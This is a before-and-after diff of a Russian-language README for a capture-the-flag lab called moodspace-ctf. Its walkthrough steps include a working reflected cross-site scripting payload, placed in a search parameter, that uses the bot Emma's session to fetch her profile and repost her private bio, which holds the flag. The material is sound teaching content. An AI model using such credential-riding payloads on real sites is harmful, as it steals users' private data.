

Before and after one commit to taanchhik/moodspace-ctf, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -88,10 +88,10 @@
 
 1. Зайдите в приложение с помощью браузера: http://moodspace.local:5000
 2. Создайте нового пользователя: придумайте имя и пароль. Зарегистрируйтесь и войдите в систему под этими учетными данными.
-3. Найдите скрытый тестовый поддомен.
+3. Найдите уязвимость в строке поиска и скрытый тестовый поддомен.
 4. Отправьте боту Эмме через форму сообщений следующую ссылку (замените *ваш_логин* на свой логин):
    ```bash
-   http://test.moodspace.local:5000/?vuln_param=<script>fetch('http://moodspace.local:5000/api/user/emma',{credentials:'include'}).then(r=>r.json()).then(data=>{fetch('http://moodspace.local:5000/api/post/create',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:data.bio,username:'ваш_логин'})})})</script>
+   http://test.moodspace.local:5000/?search=<script>fetch('http://moodspace.local:5000/api/user/emma',{credentials:'include'}).then(r=>r.json()).then(data=>{fetch('http://moodspace.local:5000/api/post/create',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({content:data.bio,username:'ваш_логин'})})})</script>
    ```
 6. Вернитесь на основную страницу (в ваш блог) и обновите её. Там появится новый пост с флагом:
    ```bash
````
